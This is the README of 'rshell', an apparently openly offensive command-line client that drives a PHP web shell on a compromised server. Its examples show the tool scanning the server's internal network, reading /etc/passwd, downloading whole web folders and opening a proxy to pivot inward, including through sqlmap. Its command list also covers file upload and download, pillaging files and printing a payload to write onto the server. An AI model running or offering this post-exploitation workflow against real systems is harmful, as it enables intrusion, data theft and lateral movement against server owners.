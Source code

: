 
# rshell
## Interactive command line interpreter using a web shell

###Usage:
	python rshell.py -u shell_url [-p proxy:port]
####Examples:
	* python rshell.py -u http://127.0.0.1/shell.php

		#Get the ips assigned to the server interfaces
		rshell:~ get_local_ips
		{'127.0.0.1': {'mask_bits': 8}, '192.168.1.8': {'mask_bits': 24}}

		#Find hosts in the server internal network
		rshell:~ find_hosts

		IP: 192.168.1.3
		Host name: 
 
		IP: 192.168.1.2
		Host name: 
		 
		IP: 192.168.1.1
		Host name: 
		23/tcp    open  telnet
		53/tcp    open  domain
		80/tcp    open  http
		52869/tcp open  unknown
		 
		IP: 192.168.1.8
		Host name: 
		22/tcp  open  ssh
		80/tcp  open  http
		111/tcp open  rpcbind
		139/tcp open  netbios-ssn
		445/tcp open  microsoft-ds

		#Run a command on the server side
		rshell:~ cat /etc/passwd

		#Run a command on the client side
		rshell:~ !command_in_client_side

		#Compress and download a folder
		rshell:~ dwfolder /var/www/html

		#Start a proxy to pivot to the internal network
		#You have to configure your browser proxy settings to localhost:8888
		rshell:~ start_proxy

	* python rshell.py -u http://127.0.0.1/shell.php -p proxy:port

###Functionality
	 - check_files 
        	Check existence of some files extracted from
	        pillage.lst from pwnwiki (https://github.com/pwnwiki)
        	usage: check_files
	 - compress_folder 
        	Compress a folder in the the server
	        usage: dwfolder compressed_file_name
	 - download 
        	Download a file from the server
	        usage: download remote_path/remote_file local_path/local_file
	 - dwfolder 
        	Compress and download a entire folder from the server
	        usage: dwfolder folder_path
	 - exit 
        	This is the exit command
	 - find_hosts 
        	Find hosts on local network
	        usage: find_hosts
	 - get_local_ips 
        	Get ips assigned to the local interfaces
	        usage: get_local_ips
	 - get_os 
        	Get information about the operating system using php
	        usage: get_os
	 - getswversion 
        	Print some software versions
	        usage: getswversion
	 - getsysinfo 
        	Print user and system information
	        usage: getsysinfo
	 - help 
        	This command show the list of commands
	 - payload 
        	Print the payload to write in an executable file in the server
	 - phpinfo 
        	Extract the phpinfo result and open it in a web browser
	 - print_hosts 
        	Print the hosts finded whith the command find_hosts
	        usage: print_hosts
	 - print_local_ips 
        	Print local ips
	        usage: print_local_ips
	 - quit 
        	This is the exit command
	 - set_password

	 - shell 
        	This method execute the command locally
	 - sql_connect

	 - start_proxy 
        	Start a local http proxy server to surf the internal network
		Or you can use it with sqlmap (./sqlmap.py -u "http://192.168.32.15/cat.php?id=1" --proxy=http://127.0.0.1:8888 --current-user)
	        usage: start_proxy
	 - stop_proxy 
        	Stop the proxy server
	        usage: stop_proxy
	 - upload 
        	Upload a file to the server
	        usage: upload local_path/local_file remote_path/remote_file
